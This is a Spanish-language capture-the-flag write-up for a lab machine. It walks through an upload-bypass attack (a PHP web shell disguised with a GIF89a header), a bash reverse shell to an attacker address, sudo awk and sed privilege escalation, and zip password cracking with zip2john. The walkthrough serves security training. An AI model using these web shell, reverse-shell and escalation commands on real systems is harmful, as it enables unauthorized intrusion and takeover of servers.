


- Tags: #RCE #AbusoDeFileUpload #zip2john #sed #awk #escalarPrivilegios #base64Transfer
_______
comenzamos la maquina como siempre aplicando el escaneo tipico de nmap

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport 
```

este escaneo nos reporta un puerto abierto, el puerto 80 http el cual aloja una pagina web 
_____

_____
investigando el codigo fuente encontraremos otro dominio al cual si queremos acceder tenemos que realizar virtual hosting para que la ip nos resuelva al dominio.

la url es la siguiente
_____

_____
si ingresamos tendremos lo siguiente.
_____

_____
antes de este panel encontraremos un panel de registro, nos registramos, para posteriormente ingresar con el usuario y clave que hayamos registrado.

si vamos a las opciones e ingresamos en la opción acerca de, veremos lo siguiente.
____

_______
podemos buscar en con searchsploit para ver si existen vulnerabilidades.
____

_____
tenemos una vulnerabilidad para esa versión, veamos la prueba de concepto.

nos indica que debemos crear una nueva suscripción en  la pagina y en el apartado de cargar logotipo debemos cargar un archivo.php el cual debe tener el siguiente contenido.

```php
<?php
system($_GET['cmd']);
?>
```

ese archivo lo subiremos como el presunto logotipo pero esta petición la capturaremos con BurpSuite puesto que debemos colocar un parámetro mas en esa petición.

debemos agregar `GIF89a` arriba de la imagen, la petición que capturamos en el BurpSuite la transferimos al repeter para poder realizar este ultimo paso.
_______

_______
ahora si enviamos la petición.
____

_____
obtenemos un código 200 y vemos que todo se realizo con éxito.

ahora debemos ir al siguiente directorio.

`http://VICTIM_IP/images/uploads/logos/XXXXXX-yourshell.php`

ahí encontraremos nuestro archivo .php.
______

______
es aquí donde podremos ejecutar los comando agregando.

```php
?cmd=<comando>
```

al final de la url.
_____

______
y vemos que tenemos ejecución de comando, por lo que ahora enviaremos una reverse shell a nuestra maquina para así ganar acceso.

```bash
bash -c "bash -i >%26 /dev/tcp/<direccion_ip>/<puerto> 0>%261"
```

esa es la reverse shell utilizada para ganar acceso a la maquina.

una vez dentro de la maquina tenemos que tratar la tty
_____

_______
posteriormente debemos buscar la forma de escalar privilegios.

si aplicamos un sudo -l veremos lo siguiente.
_____

_____
podemos ejecutar el comando awk como el usuario pylon, busquemos como escalar privilegios por este medio.

podemos ejecutar el siguiente comando para pivotar al usuario pylon.

```shell
sudo -u pylon awk 'BEGIN {system("/bin/bash")}'
```
___

_____
ahora que somos el usuario pylon debemos buscar como seguir escalando privilegios.

puesto que si aplicamos el comando `cut -d: -f1 /etc/passwd` veremos existen 3 usuario, por lo que ahora vamos a pivotar al usuario pinguino.

si nos vamos al directorio de pylon veremos lo siguiente.
_____

_____
tenemos un comprimido, y nos solicita contraseña para poder extraerlo.

el problema aquí es que tenemos pocos métodos de transferir el archivo a nuestra maquina. 

buscando en la web encontré que podemos transferir archivos mediante codificación base64, tenia mis duda acerca de este método, pero al final funciono.

acá la referencia de la web: https://infinitelogins.com/2020/04/24/transferring-files-via-base64/

el primer paso es codificar el comprimido, de la siguiente forma.
_____

_______
tenemos que agregar la extensión .b64 al final del archivo, ahora aplicamos un cat al archivo para ver su contenido y copiarlo.
____

____
copiamos el contenido y lo metemos en un archivo en nuestra maquina de atacante.
________

____
ahora decodificamos el archivo.
___

______
ahora podemos extraer el hash del comprimido para poder aplicar fuerza bruta con john.

para extraer el hash usaremos zip2john.
_____

_____
ahora que lo tenemos, aplicaremos fuerza bruta con john.
_____

____
tenemos la clave ahora podemos descomprimir el archivo.
_____

_____
nos deja un fichero.txt que nos permitirá pivotar al usuario pinguino mediante su contraseña.
_____

_____
podemos ejecutar el comando sed sin contraseña como root.

aplicaremos el siguiente comando para escalar a root

``` shell
sudo sed -n '1e exec bash 1>&0' /etc/hosts
```

______

____
damos por culminada la maquina.

